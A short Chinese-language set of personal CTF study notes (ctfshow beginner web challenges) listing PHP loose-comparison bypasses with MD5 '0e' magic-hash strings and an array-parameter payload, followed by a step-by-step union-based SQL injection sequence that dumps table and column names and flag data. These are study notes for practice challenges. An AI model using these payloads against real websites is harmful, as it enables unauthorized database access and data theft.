 #### 弱比较绕过

###### 方法一：0e绕过

<u>以0e开头的MD5值字符串：</u>
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a

<u>经过md5函数加密一次和两次后均以’0e’开头：</u>

- 7r4lGXCH2Ksu2JNT3BYM
- CbDLytmyGm2xQyaLNhWn
- 770hQgrBOjrcqftrlaZk

###### 方法二：数组绕过

payload: ?a[]=1&b[]=2

- 松散比较：使用两个等号 **==** 比较，只比较值，不比较类型。

- 严格比较：用三个等号 **===** 比较，除了比较值，也比较类型。
  
  ### SQL注入
  
  1' order by 1 -- (--+/#)             以第一列排序
  
  1' order by 4(n) --                                       直到找不到列
  
  -1是为了让页面在前面查询不出内容
  
  -1' union
  select 1,2,3,4             发现四个都可以查
  
  -1' union select ****                          查数据库ctf
  
  -1' union
  select *****                 爆database表名flag
  
  -1' union select ****                 爆列名data（用ctf.flag)(改scheme为name）
  
  -1' union select  1,group_concat(data),3,4 from flag 

ctfshow顺序入门笔记wp
(备忘：还没有安好ciphey)
web 1/2：
ctrl+U / view-source / F12 / 右键+检查 ：查看源码
